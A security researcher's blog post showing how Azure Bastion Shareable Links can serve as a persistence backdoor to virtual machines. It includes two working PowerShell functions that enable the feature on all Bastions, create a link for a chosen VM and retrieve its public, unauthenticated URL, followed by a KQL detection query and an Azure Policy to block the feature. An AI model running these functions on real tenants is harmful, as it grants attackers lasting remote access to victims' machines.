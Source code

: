 ```yaml
---
layout: post
title:  "Yet Another Azure VM Persistence Using Bastion Shareable Links"
date:   2022-11-26
---
```


Earlier this week Microsoft [announced the public preview of Shareable Links in Azure Bastion](https://learn.microsoft.com/en-us/azure/bastion/shareable-link). 

Out-of-the-box persistence for a Virtual Machine that is reachable through an Azure Bastion, allowing for yet [another](https://microsoft.github.io/Azure-Threat-Research-Matrix/Persistence/Persistence/) persistence mechanism in Azure?

I deployed an Azure Bastion to validate, enabled the feature, and generated a Shareable Link for a VM. The link has no additional authentication and is publicly accessible.

**Example link:** Public link for Bastion - [https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598](https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598) 

(![bastion](https://user-images.githubusercontent.com/26272119/204090894-4c9f4232-215a-472e-90d9-77dab0aba820.png))

To enable the feature and get a shareable link, the permissions listed below are required to perform this. These permissions are all associated with the Contributor role: 

- Microsoft.Network/bastionHosts/write
- Microsoft.Network/bastionHosts/createShareableLinks/action
- Microsoft.Network/bastionHosts/getShareableLinks/action

There are three operations required to configure the persistence:

1. Update the Bastion to enable the Shareable Link feature [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP) 
2. Create a Shareable Link for a specified VM [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP)
3. Retrieve the URL for the Shareable Link  [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP) 

To streamline enablement of the feature, I wrote two functions, that I plan to further improve and submit to [Microburst](https://github.com/NetSPI/MicroBurst). 

Note that it requires the Az module to be installed for it to retrieve a token:

```powershell
function Invoke-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimMelhaoui), O3 Cyber
    # Description: PowerShell function for creating a shareable link in Azure Bastion
    # A VM must be specified as the link is attached to a VM.
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    [CmdletBinding()]
    Param(
    [Parameter(Mandatory=$true,
    HelpMessage="Name of VM to enable Shareable Link")]
    [string]$VMName = ""
    )

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Enabling Shareable Link feature on all Azure bastions"

    #Gets the ID of VM specified through name parameter to use for creating a shareable link
    $VMId = Get-AzVM -Name $VMName | Select-Object -ExpandProperty Id
    Write-Output "Id of VM: $VMId" 

    foreach ($AzBastion in $AzBastions) {

        
        $body = -join ('{"location": "',$AzBastion.location,'", "properties": {"enableShareableLink": "true","ipConfigurations": [{"name": "',$AzBastion.IpConfigurations.Name,'","properties":{"publicIPAddress": {"Id": "',$AzBastion.IpConfigurations.PublicIpAddress.Id,'"},"subnet":{"Id": "',$AzBastion.IpConfigurations.Subnet.Id,'"}}}]}}')
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
        try {
            Write-Output "Enabling shareable links on $BastionName"
            Invoke-RestMethod -Method Put -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)?api-version=2022-05-01" -Headers $Headers -Body $body -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
        
        #Generate body with VM ID specifie. 
        $VMBody = -join ('{"vms":[{"vm":{"id":"',$VMId,'"}}]}')

        try {
        #Creates shareable link for specified VM
        Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/createShareableLinks?api-version=2022-05-01" -Headers $Headers -Body $VMBody -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Invoke-AzRestBastionShareableLink
```

Once the feature is enabled on a Bastion, you can retrieve the links using the function below. The retrieval of the Shareable Link is separated into a separate function as the Shareable Link cannot be retrieved until the operation for enabling it is complete.

```powershell
function Get-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimMelhaoui), O3 Cyber
    # Description: PowerShell function for getting an existing shareable link in Azure Bastion
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Getting all Shareable Links for Azure bastions"
    foreach ($AzBastion in $AzBastions) {        
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
    
        try {
            $BastionLink = Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/GetShareableLinks?api-version=2022-05-01" -Headers $Headers | Select-Object -ExpandProperty Value | Select-Object -ExpandProperty bsl
            Write-Host -ForegroundColor Green "Public link for Bastion: $BastionLink"
        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Get-AzRestBastionShareableLink
```

# Detection

The particular operations can be deteted in the AzureActivity log with the KQL query below:

```bash
AzureActivity
| where OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/GETSHAREABLELINKS/ACTION" or OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/CREATESHAREABLELINKS/ACTION"
| order by TimeGenerated desc
| project Caller, CallerIpAddress, OperationName, TimeGenerated, ResourceId
```

# Prevention

Ideally, you should also consider preventing the feature using Azure Policy with the below Policy Definition:

```json
{
  "mode": "All",
  "parameters": {
    "effect": {
      "type": "String",
      "allowedValues": ["Audit", "Disabled", "Deny"]
    }
  },
  "policyRule": {
    "if": {
      "allOf": [
        {
          "field": "type",
          "equals": "Microsoft.Network/BastionHosts"
        },
        {
          "field": "Microsoft.Network/BastionHosts/enableShareableLink",
          "equals": true
        }
      ]
    },
    "then": {
      "effect": "[parameters('effect')]"
    }
  }
}
```

Even though this is an intended feature and behavior, security teams should be aware of the feature and implement detections.